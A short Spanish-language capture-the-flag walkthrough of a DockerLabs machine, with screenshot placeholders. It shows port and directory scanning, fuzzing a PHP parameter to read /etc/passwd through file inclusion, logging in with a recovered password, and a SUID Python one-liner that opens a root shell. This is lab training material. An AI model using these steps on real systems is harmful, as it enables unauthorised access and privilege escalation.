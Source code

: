 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da in index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![[index2.png]]

buscamos eso y da solo en la pagina un "balu"

![[hidden.png]]

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![[page.png]]

y obtenemos

![[dockerlabs/facil/patriaquerida/etc.png]]

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![[dockerlabs/facil/patriaquerida/conexion.png]]

y escalamos a mario muy facil

![[dockerlabs/facil/patriaquerida/conexion2.png]]

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![[python1.png]]

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![[python2.png]]

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![[dockerlabs/facil/patriaquerida/root.png]]

somos root!
